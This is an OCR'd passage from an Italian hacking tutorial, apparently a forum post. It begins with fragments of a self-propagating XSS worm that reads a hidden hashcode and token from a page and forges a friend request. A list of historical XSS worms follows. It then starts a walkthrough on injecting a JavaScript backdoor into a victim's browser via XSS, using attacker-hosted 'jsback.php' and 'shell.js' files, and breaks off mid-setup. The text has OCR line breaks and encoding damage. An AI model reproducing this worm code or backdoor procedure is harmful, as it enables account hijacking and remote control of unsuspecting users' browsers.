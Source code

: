 processxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var

AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var AS=new

Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to

Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POS

T',paramsToString(AS))}function httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return

false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xml

http2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setReque

stHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return true}"></DIV>


Ora, senza stare a spiegare riga per riga possiamo capire che i w0rm xss sono pericolosi per

sistemi e community quali myspace,yahoo ecc..
Vi basti pensare che in tutto i w0rm si contano sulle dita:

DATA:           NOME W0RM        BERSAGLIO

01/11/2008      New Orkut Worm      Orkut
08/07/2008     JustinTV Worm      Justin TV
24/01/2008     Yamanner      Yahoo! Mail Service
24/01/2008     hi5 Worm      hi5
24/01/2008     Gaia Worm      Gaiaonline
24/01/2008     Orkut Worm      Orkut
24/01/2005     Samy Worm        Myspace

Non reputo ci sia molto altro da dire, per questo argomento non ci sono regole o tutorial,

ognuno dovrebbe riuscire a trovare una vulnerabilitÃ  che gli permetta di inserire codici

simili a questie comunque sia, non Ã¨ una cosa che personalmente mi interessa.





Code:
[+] JavaScript Shell -  XSS & Backdoor

Ora parliamo di una cosa m000lto c00l!! ;-)
Sfruttiamo una vulnerabilitÃ  XSS per inniettare una backdoor a discapito di un povero user

vittima.

Procedimento:
Grazie ad un apposito tool creato da Inj3ct-it crew possiamo fare qualcosa di molto piÃ¹

pericoloso che un semplice alert, anche questa Ã¨ una delle tecniche che le persone non

conoscono con le XSS e cosÃ¬ facendo, restando ingnoranti, e le sottovalutano.

Requisiti 2 files:

-JsBack.php (from Inj3ct-it)

-shell.js (from Inj3ct-it)

Come primo passo dobbiamo uplodare sul nostro sito i 2 files jsback.php & shell.js,
e modificare le impostazioni iniziali( password e username per accedere nel file jsback.php
